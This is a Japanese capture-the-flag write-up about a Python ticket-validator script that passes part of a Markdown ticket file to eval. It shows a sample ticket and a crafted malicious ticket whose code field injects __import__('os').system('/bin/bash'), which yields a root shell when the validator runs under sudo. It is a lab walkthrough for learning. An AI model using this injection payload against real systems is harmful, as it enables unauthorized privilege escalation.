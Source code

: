 ``` python
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

特定のフォーマットのファイルを引数として受け取り、パースするスクリプトのようです。

システム内を探索すると、チケットのフォーマットがわかりました。

``` bash
#cat /opt/skytrain_inc/invalid_tickets/390681613.md

# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

ここで、`__Ticket Code:__`の次の行の`+`で連結された一つ目の数字の7のmodが4の場合に、evalが呼び出されるようです。

これで、``**31+410+86**`の部分がevalの引数になるので、この中にシェルを起動するコマンドを埋め込んでいこうと思います。

evalからシェルを呼び出す方法は、こちらのStack Overflowが参考になりました。

参考：[Python - running reverse shell inside eval() - Stack Overflow](https://stackoverflow.com/questions/59519289/python-running-reverse-shell-inside-eval)

というわけで、以下のようなファイルを作成しました。

``` bash
#cat mal.md

# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**11+100 != 0 and __import__('os').system('/bin/bash') == False**
##Issued: 2021/04/06
#End Ticket
```

これをsudo権限で実行した`ticketValidator.py`から呼び出せばrootのシェルが取得できます。

## まとめ

マシン名のとおり、自分でバグを見つけ出してrootを取得するというプロセスがあってなかなか面白かったです。
